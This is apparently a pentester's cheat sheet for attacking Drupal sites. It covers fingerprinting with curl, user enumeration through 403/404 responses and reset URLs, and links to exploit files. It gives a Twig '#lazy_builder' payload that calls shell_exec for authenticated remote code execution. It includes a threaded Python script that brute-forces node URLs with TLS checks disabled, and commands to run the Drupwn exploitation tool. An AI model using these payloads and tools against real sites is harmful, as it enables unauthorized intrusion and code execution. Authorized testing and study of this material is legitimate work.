 # Manual Drupal Security Checks and Exploits

## Basic Information Gathering

### Check Meta Information
Identify if a website is running Drupal:
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```

### Enumerate Users
Check if a user exists:
- A `403 Forbidden` response indicates the user exists.
- A `404 Not Found` response indicates the user does not exist.
```bash
curl https://www.drupal.org/user/X
```

Get the username associated with a user ID:
```bash
curl https://www.drupal.org/reset/user/X/1/1
```

## Exploits

### Drupal < 8.7.x Authenticated RCE Module Upload
- **Reference:** [Drupal Issue 3093274](https://www.drupal.org/project/drupal/issues/3093274)
- **Exploit File:** [drupal_rce.tar.gz](https://www.drupal.org/files/issues/2019-11-08/drupal_rce.tar_.gz)

### Drupal < 9.1.x Authenticated RCE via Twig Templates
- **Reference:** [Drupal Issue 2860607](https://www.drupal.org/project/drupal/issues/2860607)
- **Exploit Steps:**
  - "Administer views" -> new View of User Fields -> Add a "Custom text":
```java
"{{ {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]} }}"
```

### Drupal 8 Exploit
- **Reference:** [Exploit-DB 46459](https://www.exploit-db.com/exploits/46459)

### Node Enumeration
If `/node/$NUMBER` is found, it could indicate developer or test pages.

### Username Disclosure
Older Drupal versions might disclose usernames:
```bash
?q=admin/views/ajax/autocomplete/user/a
```

## Tools for Drupal Enumeration and Exploitation
### Enumerate nodes - Get URLs
https://raw.githubusercontent.com/D0ntTrustMe/drupal-enum/refs/heads/main/DRUPAL_get_urls.py

```python
#!/usr/bin/python3
# coding:utf8

import argparse
import requests
import urllib3  
from concurrent.futures import ThreadPoolExecutor, as_completed

urllib3.disable_warnings()

def fetch_url(url):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36"
    }
    try:
        response = requests.get(url, headers=headers, verify=False, allow_redirects=False)
        if response.status_code == 301:
             return response.headers.get("Location")
        else:
             return None
    except requests.exceptions.ConnectionError as e:
            print(f"Error: {e}")

def main(url_target):
    DRUPAL_URL = f"{url_target}/node/"
    ids = range(1, 1001)
    urls = [f"{DRUPAL_URL}{id}" for id in ids]
    with ThreadPoolExecutor(max_workers=50) as executor:
        future_to_url = {executor.submit(fetch_url, url): url for url in urls}
        for future in as_completed(future_to_url):
            url = future_to_url[future]
            try:
                location = future.result()
                if location is not None:
                     print(f"{location}")
            except Exception as exc:
                 print(f"Error: {exc}")

def parseArgs():
    parser = argparse.ArgumentParser(description="Drupal - Get All URLs")
    parser.add_argument("-u", "--url", required=True, help="Drupal URL")
    return parser.parse_args()

if __name__ == '__main__':
    options = parseArgs()
    main(options.url)
```
#### Drupwn
Drupwn is a tool for enumerating and exploiting Drupal installations.

#### Installation
```bash
git clone https://github.com/immunIT/drupwn.git
cd drupwn
pip3 install -r requirements.txt
```

#### Enumeration
```bash
drupwn --mode enum --target $url
```

#### Exploitation
```bash
drupwn --mode exploit --target $url
```

### Droopescan
>Droopescan is a plugin-based scanner that helps security researchers identify issues with several CMSs, including Drupal.

#### Installation
```bash
apt-get install python-pip
pip install droopescan
```

#### Scanning
```bash
droopescan scan drupal -u example.org
```
